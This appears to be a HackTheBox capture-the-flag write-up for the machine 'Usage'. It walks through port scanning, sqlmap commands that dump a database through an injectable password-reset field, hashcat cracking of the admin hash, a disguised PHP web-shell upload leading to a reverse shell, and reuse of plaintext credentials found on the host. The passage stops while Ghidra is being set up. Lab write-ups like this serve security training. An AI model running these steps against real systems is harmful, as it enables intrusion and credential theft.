---

title: Usage
published: 2026-10-25
description: Usage is an easy Linux machine that features a blog site vulnerable to SQL injection, which allows the administrator’s hashed password to be dumped and cracked. This leads to access to the admin panel, where an outdated Laravel module is abused to upload a PHP web shell and obtain remote code execution. On the machine, plaintext credentials stored in a file allow SSH access as another user, who can run a custom binary as root. The tool makes an insecure call to 7zip, which is leveraged to read the root user’s private SSH key and fully compromise the system.
image: ./usage_logo.png
tags: [Linux, Easy, HackTheBox]
category: writeups
draft: false
---

# Reconnaissance

First, we check which **TCP ports** are open

```bash
sudo nmap -sS -p- --open -T3 10.129.91.171 -vvv -n -Pn -oN allports.txt
```

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Based on the TTL, we can confirm that this is a Linux machine:

And as we can see, we have two services: **HTTP** and **SSH**

Now let's run a more in depth scan to gather some information about these two services

```bash
nmap -sVC -p22,80 10.129.91.171 -oN portscan.txt
```

```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Final times for host: srtt: 45156 rttvar: 26823  to: 152448
```

If we take a look at the http-title script, it says **"Did not follow redirect to http://usage.htb/"** this happens because our machine cannot resolve the domain usage.htb. So let's map it in our /etc/hosts file

```bash
sudo nvim /etc/hosts
```



# Web-Server Enumeration

Now let's take a look at the HTTP service



the first thing we can do is use **Wappalyzer** or from the terminal `whatweb` to identify the technologies used by that service

```bash
whatweb http://usage.htb
```

```bash
http://usage.htb [200 OK] Bootstrap[4.1.3], Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[laravel_session], IP[10.129.91.171], Laravel, PasswordField[password], Title[Daily Blogs], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```

In the HTTP service, we can see that there is a button labeled **"admin"**





# Subdomain Found

This redirects us to a subdomain that isn't listed in the /etc/hosts file, so it won't work

So let's add it

```bash
sudo nvim /etc/hosts
```



Now let's see what's in that subdomain



It looks like we have an admin panel

Since we don't have credentials, let's continue in the root domain

As we saw earlier, there are two more buttons, one to sign up and another to log in

So let's create an account and log in



We didn't find anything of value within the web service, so now we can start launching an active enumeration, essentially a brute-force attack to find system paths / directories

# Brute-Force Attack Against Directories

In this case, we'll use `Gobuster` to practice using different tools

```bash
gobuster dir -u http://usage.htb/ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 50 -b 503,404 -xl 6603
```

```bash
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://usage.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   503,404
[+] Exclude Length:          6603
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
dashboard            (Status: 302) [Size: 334] [--> http://usage.htb/login]
Progress: 220557 / 220557 (100.00%)
===============================================================
Finished
===============================================================
```

We still don't have any information that could help us

Anyways, there's a button on the web service that we still need to check out...




Let's see how it works





Here we can see a message that says, **"We have e-mailed your password reset link"**

Since we know the website has a login portal, we can infer that it uses a database behind the scenes, so we can try to perform basic **SQL injections**

# SQL Injection Found




As we can see, it's still giving us the OK

To confirm if the query is being executed in the database, let's add “something” incorrect




And as we can see, the message is no longer the same

Therefore, we have found a field that is vulnerable to **SQL injection**

**(From now on, we'll be using a different IP address since I've reset the machine)**

In this case, we're going to use `sqlmap` to exploit this SQL injection

Let's start by saving the request in which we discovered the SQL injection to a file



Now we'll use this file specifically the **“email”** field so that `sqlmap` can test queries there

Since we don't know the names of the databases being used, we launched an attack to find them out

# Exploiting SQLI

```bash
sqlmap -r data.txt -p email --batch --level 3 --dbs
```



Now that we have the names of the databases, let's list the **tables** that catch our attention the most, in this case **usage_blog**

```bash
sqlmap -r data.txt -p email --batch --level 3 -D 'usage_blog' --tables
```



Now that we have the tables, let's list the **columns** we're most interested in, in this case **admin_users**

```bash
sqlmap -r data.txt -p email --batch --level 3 -D 'usage_blog' -T 'users' --columns
```



Now that we've looked at some interesting columns, let's try to list the data

```bash
sqlmap -r data.txt -p email --batch --level 3 -D 'usage_blog' --dump
```

# Hashed Admin Password Found



It looks like we've obtained the administrator's password, but it's hashed, so the next step would be to crack it

```bash
echo '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2' > password_hashed.txt
```

Now, to find out the hash type, we can use this website

**https://hashes.com/en/tools/hash_identifier**

Now all we have to do is copy and paste the hash so the page will tell us what type of hash is being used



And we see an interesting message: _*"Possible algorithms: bcrypt $2*$, Blowfish (Unix)"_*

To crack this hash, we're going to use `Hashcat`, but first we need to find the ID number for this type of hash

```bash
hashcat --example-hashes | grep -i "Blowfish" -B 5 -A 5
```



As we can see from the name, it says bcrypt $2*$, Blowfish (Unix), and the hash mode is **#3200**, that number is the one we need to crack the hash

Now that everything is ready, let's try to crack it

# Hash Cracking

```bash
sudo hashcat -m 3200 -a 0 password_hashed.txt /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
```



We were able to crack it, password: **whatever1**

With this plain-text information, let's try to log in to the admin panel we saw earlier in the web service

credentials: **admin:whatever1**





We're in...

After exploring almost all the features available within the web service, I found something very interesting...

# Malicious PHP file

If we go to the user settings section, we can see that we can change our profile picture



With that in mind, let's try uploading a PHP file

But first, let's create it

```bash
nvim shell.php
```


Now let's try uploading that file



And it didn't work, that's because only "image" files can be uploaded

Now, what we can do is upload the same file but with a **.jpg** extension to see if the server allows it

```bash
mv shell.php shell.jpg
```



it worked!

But before uploading the image, we should intercept the request with `Burp Suite`, maybe we can change the parameter in the request from **.jpg** to **.php** and inject PHP code into the device where this web service is hosted

```bash
burpsuite 2>/dev/null & disown
```





However, we don't know if it works, but if it does, we'd better set up a reverse shell just in case

# Reverse-Shell



Once everything is ready, all we have to do is click the "Forward" button and see if we get a connection



And we've been able to compromise the machine

# Privilege Escalation

First, let's see which user we compromised



Now let's move on to the home directory

```bash
cd /home/dash
```

```bash
ls -la
```

```bash
total 52
drwxr-x--- 6 dash dash 4096 Oct 28 17:34 .
drwxr-xr-x 4 root root 4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root    9 Apr  2  2024 .bash_history -> /dev/null
-rw-r--r-- 1 dash dash 3771 Jan  6  2022 .bashrc
drwx------ 3 dash dash 4096 Aug  7  2023 .cache
drwxrwxr-x 4 dash dash 4096 Aug 20  2023 .config
drwxrwxr-x 3 dash dash 4096 Aug  7  2023 .local
-rw-r--r-- 1 dash dash   32 Oct 26  2023 .monit.id
-rw-r--r-- 1 dash dash    5 Oct 28 17:34 .monit.pid
-rw------- 1 dash dash 1192 Oct 28 17:34 .monit.state
-rwx------ 1 dash dash  707 Oct 26  2023 .monitrc
-rw-r--r-- 1 dash dash  807 Jan  6  2022 .profile
drwx------ 2 dash dash 4096 Aug 24  2023 .ssh
-rw-r----- 1 root dash   33 Oct 28 17:05 user.txt
```

And inside here, we can see the user's flag **"user.txt"**, but also an interesting file called **.monitrc**

Let's see what's inside...

# Possible Credentials Found

```bash
cat .monitrc
```

```bash
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

#Apache
check process apache with pidfile "/var/run/apache2/apache2.pid"
    if cpu > 80% for 2 cycles then alert


#System Monitoring 
check system usage
    if memory usage > 80% for 2 cycles then alert
    if cpu usage (user) > 70% for 2 cycles then alert
        if cpu usage (system) > 30% then alert
    if cpu usage (wait) > 20% then alert
    if loadavg (1min) > 6 for 2 cycles then alert 
    if loadavg (5min) > 4 for 2 cycles then alert
    if swap usage > 5% then alert

check filesystem rootfs with path /
       if space usage > 80% then alert
```

And here there appear to be supposed credentials for the **"admin"** user

**admin:3nc0d3d_pa$$w0rd**



From what we can see, these credentials can be used with a service running on port 2812 locally

One option we can consider is setting up port forwarding to see if we can access that service

But first, let's use the password we found to see if we can gain access to another user

If we go to the home directory, we can see that there are two users

```bash
cd /home
```



# Taking Control Of User Xander

Let's try to log in as this new user using the credentials we found

```bash
su xander
```

**Password: 3nc0d3d_pa$$w0rd**



And we've taken control of the user Xander!

Now let's see which commands the user **Xander** can run with **elevated privileges** without entering a password

```bash
sudo -l
```



We can run the **/usr/bin/usage_management** command with elevated privileges

Now we need to see if that command is useful for elevating our privileges

First, let's see what kind of file it is

```bash
file /usr/bin/usage_management
```

```bash
/usr/bin/usage_management: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fdb8c912d98c85eb5970211443440a15d910ce7f, for GNU/Linux 3.2.0, not stripped
```

Since this is a compiled executable file, we won't be able to list its contents using `cat`

Anyway, let's run it first to see what it does

```bash
sudo /usr/bin/usage_management
```



It looks like a backup is being performed, but since we can't see the code running in the background, we don't know what's really happening

# Reverse Engineering The File

To view the file's code, we're going to use a tool called **Ghidra**




```bash
unzip ghidra_12.2_PUBLIC_20261016.zip
```

```bash
cd ghidra_12.2_PUBLIC/
```

```bash
./ghidraRun &> /dev/null & disown
```

